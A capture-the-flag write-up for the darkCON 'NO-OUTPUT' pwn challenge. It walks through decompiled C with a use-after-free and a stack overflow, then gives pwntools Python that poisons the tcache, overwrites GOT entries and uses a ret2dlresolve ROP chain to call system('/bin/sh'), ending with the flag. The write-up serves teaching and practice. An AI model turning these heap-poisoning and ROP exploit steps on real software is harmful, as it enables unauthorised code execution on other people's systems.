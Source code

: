 # Pwn/NO-OUTPUT [495]

```
Ok !!! This challenge doesn't give any output. Now try to get the shell.
The libc has tcache enabled (not libc-2.32) and you don't require libc for this challenge at all. This challenge can be done without having libc. You don't need to guess or bruteforce libc.
connection: nc 13.233.166.242 49153
```

**Files**: [NO-Output.zip](https://darkc0n.blob.core.windows.net/challenges/NO-Output.zip) (`NO_output`)

```c
$ checksec NO_Output
[*] '/NO_Output'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Figuring out what to do

The code for this challenge is structurally similar to that of [Warmup](Warmup.md), so we'll be inspecting the differences more closely.

`init()` does something weird:

```c
void init() {
  char s[24]; // [rsp+10h] [rbp-20h]
  for (int i = 0; i <= 71; ++i) {
    char c = fgetc(stdin);
    if ( c == '\n' )
      break;
    s[i] = c;
  }
}
```

This is clearly an overflow, but overflowing here will cause a stack protector failure. We'll probably need to jump back to here later to perform ROP for one reason or another.

`main()` now has 3 options: `add()`, `edit()`, and `delete()`.

```c
unsigned getIndex() {
  int ind; // [rsp+Ch] [rbp-4h] BYREF
  scanf("%d", &ind); getchar();
  if ( ind < 0 || ind > 15 )
    exit(0);
  return ind;
}
unsigned getValidSize() {
  int sz; // [rsp+Ch] [rbp-4h] BYREF
  scanf("%d", &sz); getchar();
  if ( sz < 0 || sz > 4096 )
    exit(0);
  return sz;
}
void add() {
  int ind = getIndex();
  int size = getValidSize();
  chunks_len[ind] = size;
  chunks[ind] = (char *)malloc(size);
  for (int i = 0; ; ++i) {
    if ( i >= chunks_len[ind] )
      break;
    char c = fgetc(stdin);
    if ( c == '\n' )
      break; // not nul-terminated!
    chunks[ind][i] = c;  
  }
}
```

The first option allows for an arbitrary allocation of up to 4096 bytes. The bytes inputted don't get nul-terminated, but that isn't very significant here because of the lack of any string manipulation functions.

```c
void edit() {
  int ind = getIndex();
  if ( !chunks[ind] )
    exit(0);
  for (int i = 0; ; ++i) {
    if ( i >= chunks_len[ind] )
      break;
    char c = fgetc(stdin);
    if ( c == '\n' )
      break;
    chunks[ind][i] = c;
  }
  return c;
}
```

`edit()` simply overwrites the first `chunks_len[ind]` bytes at `chunks[ind]`. This in-and-of-itself is not an issue, but combined with the bug here:

```c
void delete() {
  int ind = getIndex();
  if ( !chunks[ind] )
    exit(0);
  free(chunks[ind]); // !!! chunks[ind] is not cleared !!!
}
```

We can make use of the UAF to [allocate an arbitrary pointer](https://github.com/shellphish/how2heap/blob/master/glibc_2.31/tcache_poisoning.c) via the tcache free list.

```python
def tcache_poison(size: int, ptr: int):
    '''put an arbitrary ptr of a specific size at the head of the tcache free list'''
    assert size < 0x400 # must be within tcache size
    # We'll use the last indexes (14 & 15) for temporary storage
    add(14, size, b'first')
    add(15, size, b'second')
    delete(14)
    delete(15)
    edit(15, pack(ptr))
    add(15, size, b'second')
    # after here, the next call for malloc(`size`) will return `ptr`.
```

My immediate idea is to use this arbitrary write primitive to overwrite the GOT table, which would grant us arbitrary code execution... with the addresses we know.

As the title states, this challenge provides **no output**: PIE might be disabled, but there aren't any immediately useful functions available for leaking data. We'll need to obtain a shell without any information leaks.

I got stuck on this for a bit, up until I found an enlightening piece of metadata within IDA:

![image-20210220212611387](C:\Users\A\AppData\Roaming\Typora\typora-user-images\image-20210220212611387.png)

_Ah._

## ret2dlresolve

In essence, the `ret2dlresolve` technique is a leakless method for executing libc functions, given that the exploiter has the location of `.text`, along with a sufficiently long region for ROP. You can look up the finer details in writeups online, or you can [abuse pwntools](https://pwntools.readthedocs.io/en/dev/rop/ret2dlresolve.html) like I do.

In short, the solution here is to:

1. Use the UAF/Double-Free poisoning above to write `dlresolve.payload` to `dlresolve.data_addr`. Whatever those things are.

   ```python
   dlresolve = Ret2dlresolvePayload(context.binary, symbol="system", args=["/bin/sh"])
   tcache_poison(0x200, dlresolve.data_addr)
   add(0, 0x200, dlresolve.payload)
   ```

   This is the `rop.read(0, dlresolve.data_addr)` step in the pwntools example.

2. With the same arbitrary write primitive, edit a good function to jump back to `init()` for an overflow, and also [**edit `__stack_chk_fail()` to a `leave; ret;` gadget**](http://wapiflapi.github.io/2014/11/17/hacklu-oreo-with-ret2dl-resolve.html).

   ```python
   R = ROP(context.binary)
   leave_ret = R.find_gadget(['leave', 'ret']).address
   tcache_poison(0x18, context.binary.got['free'])
   add(0, 0x18, pack(context.binary.symbols['init']) + pack(leave_ret))
   ```

    Since `free()` is adjacent to `__stack_chk_fail()` in the GOT table, I used `free()` as that `init()` trampoline.

3. Use the ROP available at `init()` in conjunction with the [ret2dlresolve](https://pwntools.readthedocs.io/en/dev/rop/ret2dlresolve.html) module to call `system("/bin/sh")`.

   ```python
   R.raw(b'a'*0x28)
   R.ret2dlresolve(dlresolve)
   delete(0) # trigger free(), which triggers init()
   r.sendline(R.chain())
   r.interactive()
   ```

   

That's that.

## Flag

`darkCON{R3t_t0_dlr3s0lv3_c0mb1n1n9_w1th_tc4ch3_p01s0n1n9_4tt4ck}`
